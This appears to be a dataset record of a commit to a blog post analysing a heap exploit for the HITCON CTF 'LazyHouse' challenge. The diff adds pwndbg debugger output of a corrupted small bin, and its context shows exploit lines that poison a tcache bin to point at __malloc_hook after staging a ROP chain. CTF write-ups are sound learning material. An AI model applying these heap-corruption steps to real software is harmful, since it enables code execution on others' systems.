

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2019-10-24-hitconctf-lazyhouse-balsn-exploit-analysis.markdown, in a window 1280 px wide and 900 px high, scrolled down 18547 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries.

Commit message:
Added new code block for small bin

````diff
--- a/_posts/2019-10-24-hitconctf-lazyhouse-balsn-exploit-analysis.markdown
+++ b/_posts/2019-10-24-hitconctf-lazyhouse-balsn-exploit-analysis.markdown
@@ -776,6 +776,13 @@ buy(3, 0x210, payload)
 ```
 
 Now that the ROP chain is on the heap at a known address, the next allocation will give us a chunk right on top of `heapbase+0x40`. We will use this chunk to overwrite the 0x210 tcache bin pointer to point to `__malloc_hook`:
+```c
+pwndbg> smallbin
+smallbins
+0x220 [corrupted]
+FD: 0x55d424dd7a40 ◂— 'ZZZZZZZZZZZZZZZZZZZZZZZZ/home/vagrant/flag'
+BK: 0x55d424dd7040 —▸ 0x55d424dd79b0 ◂— 0x0 // We are given whatever bk points to
+```
 ```python
 # Overwrite the 0x210 sized chunk tcache bin with pointer to __malloc_hook
 buy(2, 0x210, p64(0)*0x20 + p64(malloc_hook))
````
